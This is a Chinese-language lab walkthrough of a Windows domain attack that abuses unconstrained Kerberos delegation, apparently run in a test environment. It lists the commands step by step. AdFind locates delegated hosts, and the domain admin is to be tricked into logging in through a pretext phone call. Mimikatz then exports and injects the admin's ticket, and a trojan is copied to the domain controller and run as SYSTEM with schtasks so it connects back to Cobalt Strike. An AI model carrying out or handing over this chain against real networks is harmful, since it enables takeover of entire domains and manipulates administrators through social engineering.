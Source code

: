 # 非约束委派攻击(主动)

### 利用非约束委派域控主动访问控制域控：
- 如果域管访问非约束委派的机器，就可以通过该机器伪造域管身份登录域控。

- | 机器位置 | IP              | 机器名称        | 登录用户           | 所属域   | 委派位置   |
  | -------- | --------------- | --------------- | ------------------ | -------- | ---------- |
  | 域控     | 192.168.211.10  | WIN-E0TAL57RCAA | HECK\administrator | heck.com | 域控       |
  | 域内机   | 192.168.211.201 | PC-2016         | HECK\zz            | heck.com | 非约束委派 |

- 前提：控制了一台域内机器且该机器服务账号配置了非约束性委派

### 实验步骤：

- 使用ADfind查询域内非约束委派机器账号。

  ```
  shell AdFind.exe -b "DC=heck,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName
  ```

  

![image-20240616135214525](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616135214525.png)


- 可以看到该主机很幸运的被配置了非约束性委派，那么接下来只要域管访问了这台电脑我们就可以控制整个域（可以社工，比如打电话给域管说自己访问不了web系统了，让他远程看看...），我们先尝试访问一下域控，是不可以访问的。

![image-20240616185055355](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616185055355.png)

- 当成功社工使域管访问PC-2016机器时，该机器内存中就会有域管的TGT，就可以访问任意机器了。

```
net use \\PC-2016.heck.com /user:heck\administrator 11qq```
```

![image-20240616185113843](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616185113843.png)

- 接下来去PC-2016导出内存中的票据（需要提权）,输入完成后可以看到域管的TGT了。

  ```
  mimikatz sekurlsa::tickets /export
  ```

![image-20240616213334575](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616213334575.png)

- 查看当前内存中的票据，如果有则清空票据。

  ```
  查看票据：shell klist
  清空票据：shell klist purge
  ```

  

- 进行票据传递即可获得域控的权限了。

  ```
  mimikatz kerberos::ptt 票据名
  ```

![image-20240616214304424](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616214304424.png)

- 接下来尝试访问域控，可以看到成功访问了。

![image-20240616214654102](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616214654102.png)

- 话不多说，直接三板斧上线域控。

  ```
  复制木马到域控上：shell copy zz.exe \\WIN-E0TAL57RCAA.heck.com\c$
  创建计划任务：shell schtasks /create /s WIN-E0TAL57RCAA.heck.com /tn zz /sc onstart /tr c:\zz.exe /ru system /f
  执行计划任务：shell schtasks /run /s WIN-E0TAL57RCAA.heck.com /i /tn "zz"
  ```

![image-20240616215143691](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616215143691.png)

![image-20240616215222905](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616215222905.png)

![image-20240616215344459](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616215344459.png)

- 可以看到域控已成功上线cs。

  ![image-20240616215502525](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616215502525.png)

